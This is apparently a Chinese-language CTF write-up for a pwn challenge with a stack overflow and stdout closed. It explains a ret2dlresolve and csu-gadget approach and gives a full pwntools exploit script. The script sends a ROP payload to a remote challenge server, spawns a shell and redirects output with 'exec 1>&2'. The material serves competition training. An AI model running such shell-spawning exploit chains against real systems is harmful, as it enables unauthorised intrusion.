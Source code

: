 ```python
# 0x0000000000036174 : pop rax ; ret
```

### close
Q:你leak不了一点！hacker！！
A:？？？？？？
依旧是栈溢出，这次没有沙箱了。但是把标准输出关闭了。这意味着我们需要把标准输出重定向才能获得flag
![](https://zcoi.github.io/blogs/CTF/monthgame2310/3dis1.png)
既然我们在get shell之前没办法获得任何输出，那么我们必须采用一种不依赖于泄露东西的方法。
于是毋庸置疑，关于泄露libc地址的方法直接一票否决了。
于是考虑使用ret2dlresolve来调用shell。
这里使用生成的payload
原本是想用system("/bin/sh")的，但是发现system好像有些神秘问题导致显示：
![](https://zcoi.github.io/blogs/CTF/monthgame2310/3problem.png)
于是采用execve("/bin/sh",0,0)来获取shell
但是由于没有直接pop rdx的gadget，我们使用csu来进行rdx的修改。（注意这里面的call和判断,标记起来了）：
![](https://zcoi.github.io/blogs/CTF/monthgame2310/3csu.png)
所以我们先把想要的rdx的值pop到r14里面，然后返回到0x4012300那里，把r14赋给rdx。这里绕过判断就是让rbx和rbp值相等。这里多调试几下就OK了
之后就get到shell了。这时候我们要把标准输出重定向到标准错误里面，即exec 1>&2
hint:网上关于标准输出被关闭的情况，有教程：exec 1>&0。但是似乎ubuntu 20不太好使。 可以选择把输出重定向给标准错误（2）
```python
from pwn import *
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
context.binary = elf = ELF("./pwn")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="execve",args=["/bin/sh",0])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
# io = process("./pwn")
# io=process(['./ld-linux-x86-64.so.2', './pwn'], env={"LD_PRELOAD":'./libc.so.6'})
# io=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
io=remote('8.130.110.158',7001)
# gdb.attach(io)
payload0 = flat({0x98:raw_rop})
io.sendlineafter('name',"fuck")
payload1=b'a'*0x90+p64(0x404e90)+p64(0x40127c)
io.sendlineafter('response',payload1)
pause()
io.sendline(dlresolve.payload.ljust(0x90,b'\x00')+p64(0x404ff0)+p64(0x401323)+p64(0x402018)+p64(0x40131a)+p64(0)+p64(1)+p64(0x402018)+p64(0)+p64(0)+p64(elf.got['alarm'])+p64(0x401300)+p64(0x404e90)+p64(0x404ff0)+p64(0x401230)+p64(0)+p64(0)+p64(0)+raw_rop[40:])
# pause()
# io.sendline(dlresolve.payload)
# io=remote('8.130.110.158',7001)
io.sendline(b"exec 1>&2")
io.sendline(b"ls")
io.interactive()
 
# 0x404e90
# 0x000000000040131c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040131e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401320 : pop r14 ; pop r15 ; ret
# 0x0000000000401322 : pop r15 ; ret
# 0x000000000040131b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040131f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004011bd : pop rbp ; ret
# 0x0000000000401323 : pop rdi ; ret
# 0x0000000000401321 : pop rsi ; pop r15 ; ret
```